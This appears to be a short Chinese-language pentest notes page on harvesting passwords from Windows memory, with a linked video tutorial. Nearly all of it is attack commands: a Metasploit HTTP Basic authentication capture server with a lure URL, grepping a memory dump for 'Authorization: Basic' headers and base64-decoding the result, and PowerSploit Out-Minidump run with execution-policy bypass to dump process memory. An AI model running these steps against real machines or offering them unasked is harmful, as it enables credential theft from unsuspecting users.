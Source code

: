 ```yaml
---
title: 内存密码挖掘
categories:
- windows
tags:
- windows
---
```


视频教程[地址](https://www.acfun.cn/v/ac12995602)

msfconsole -r pass.rc
```
use auxiliary/server/capture/http_basic
set uripath x
run
```
访问http://192.168.1.101/x

```
strings /root/Desktop/*.DMP | grep "Authorization: Basic"
echo "cXdmOnF3Zg==" | base64 -d
```
## powersploit
使用该脚本获取内存中的密码
```
powershell -nop -ep bypass
Import-Module C:\Users\user\Desktop\Out-Minidump.ps1
Out-Minidump Get-Process -Id pid 
```
